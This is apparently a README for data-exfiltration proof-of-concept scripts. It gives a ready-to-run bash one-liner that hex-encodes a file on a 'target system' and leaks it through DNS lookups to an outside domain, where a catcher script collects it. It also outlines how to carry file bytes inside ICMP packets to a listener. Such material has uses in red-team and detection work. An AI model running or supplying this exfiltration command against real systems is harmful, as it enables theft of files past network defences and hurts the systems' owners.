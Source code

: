 # Data Exfiltration PoC Scripts

## DNS Exfliltration (dns_catch.py)
Run dns_catch.py on your DNS server.

On target system execute via bash:
file="secretz.tgz"; key="moo"; domain="sensepost.com" i=1; md=$(cat $file| md5sum| cut -d " " -f 1); len=$((`xxd -p $file |wc -l`)); for h in `cat $file | xxd -p`; do host $h.0.$i.$len.$key.$domain; i=$(($i+1));done; host $md.1.$i.$len.$key.$domain

## ICMP (icmp_shover.py)
### Sending:
Read n bytes of file
Convert to hex
Create ICMP() packet with destination / source headers
Pack ICMP() data section with the hex
Drop it onto the wire!

### Receving:
Listen on network interface for icmp packets (with a little signature)
Unpack from data and write to file



